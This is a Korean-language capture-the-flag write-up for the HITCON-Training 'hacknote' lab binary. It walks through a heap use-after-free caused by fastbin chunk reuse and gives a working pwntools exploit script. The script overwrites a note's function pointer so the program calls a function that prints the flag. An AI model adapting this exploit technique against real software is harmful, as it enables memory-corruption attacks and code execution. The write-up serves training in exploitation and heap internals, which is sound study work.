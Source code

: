 # 문제
***

hacknote 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```

file 명령어 결과는 다음과 같다.
```
hacknote: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b7cd347eef976fbccc3014a5a14c5a739e514d09, not stripped
```

바이너리 코드

add_note 함수
```
for(i=0;i<=4;++i)
(
    if(!notelist[i])
        notelist[i]=malloc(8u);
    ...
    *notelist[i]=print_note_content;
    ...
    read(0,&buf,8u)
    size=atoi(&buf);
    v0=notelist[i];
    v0[1]=malloc(size);
    ...
    read(0,*((void**)notelist[i]+1),size)
    ...
    ++count;
    return *MK_FP(__GS__,20)^v5;
)
...
```

del_note 함수
```
...
read(0,&buf,4u);
v1=atoi(&buf);
...
if(notelist[v1)
(
    free(*((void**)notelist[v1]+1));
    free(notelist[v1])
    puts("Success")
)
return *MK_FP(__GS__,20)^v3;
```

print_note 함수
```
...
read(0,&buf,4u);
v1=atoi(&buf);
...
if(notelist[v1])
    (*(void(__cdecl**)(void *))notelist[v1])(notelist[v1]);
return *MK_FP(__GS__,20)^v3;    
```

del_note를 통해서 free을 한 heap 영역을 print_note를 통해서 사용할 수 있기 때문에 use after free 취약점이 존재한다.

또한 해당 바이너리에는 
```return system("cat /home/hacknote/flag")```를 호출하는 magic 함수가 존재한다.  

## exploit 방법
1. add_note 함수 호출을 통해서 16byte 공간을 할당받고 해당 주소를 notelist[0]에 저장한다. 그리고 read 함수의 인자로 16보다 더 큰 값을 넣어줘서 16byte 보다 더 큰 공간을 할당받는다. 
2. 1번과 동일한 행위를 반복해서 notelist[1]에 16바이트 공간의 주소를 저장한다.  
3. del_note 함수 호출을 통해서 0번 notelist를 free한다. 그 결과 16바이트 fastbin list에 notelist[0]에 저장된 주소의 영역이 들어간다.
4. 3번과 동일한 행위를 반복하면 fastbin list에 notelist[1]에 저장된 주소의 영역이 들어간다. 
5. add_note를 함수를 호출하면 fastbin은 LIFO 구조이기 때문에 notelist[3]에 notelist[1]에 저장된 주소가 할당된다. 그리고 read 함수의 인자로 8을 주면 (notelist[3]+1)에 notelist[0]에 저장된 주소가 할당된다.
그 다음 호출되는 read 함수를 통해서 *(notelist[0])에 magic 함수의 주소를 넣는다.
6. print_note 함수를 통해서 ```(*(void(__cdecl **)(void *))notelist[0])(notelist[0])```를 실행하면 magic 함수를 호출할 수 있다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def add_note(num,pay):
        p.recvuntil("choice :")
        p.send("1")
        p.recvuntil("Note size :")
        p.send(str(num))
        p.recvuntil("Content :")
        p.send(pay)

def del_note(num):
        p.recvuntil("choice :")
        p.send("2")
        p.recvuntil("Index :")
        p.send(str(num))
        p.recvuntil("Success\n")

def print_note(num):
        p.recvuntil("choice :")
        p.send("3")
        p.recvuntil("Index :")
        p.send(str(num))

file_path="/home/sungyun/HITCON-Training/LAB/lab10/hacknote"

p=process(file_path)

magic_system=0x08048986

add_note(20,"hi_3ffr3s")
add_note(20,"hi_3ffr3s")

del_note(0)
del_note(1)

add_note(8,p32(magic_system))

print_note(0)

print p.recvline()

```

# 알게 된 것
***
1. fastbin은 같은 크기의 chunk들이 single-linked list 구조로 연결되어 있고 LIFO 구조이다. 

또한 인접한 chunk와 병합되지 않는다. (fastbin이 아닌 다른 chunk들은 인접한 서로 다른 두 chunk가 free되면 병합된다. top chunk와 인접한 chunk도 병합됨)

gdb에서 global_max_fast의 값을 통해 fastbin의 크기를 확인할 수 있다.

2. prev_inuse이 비트는 앞에 위치한 chunk가 free되면 0으로 세팅된다. (fastbin은 prev_inuse 비트를 사용하지 않는다.)

3. free하면 fd/bk (fastbin은 fd만) 주소 값으로 data 영역을 덮어쓴다. 가리킬 곳이 없으면 NULL이 들어간다.

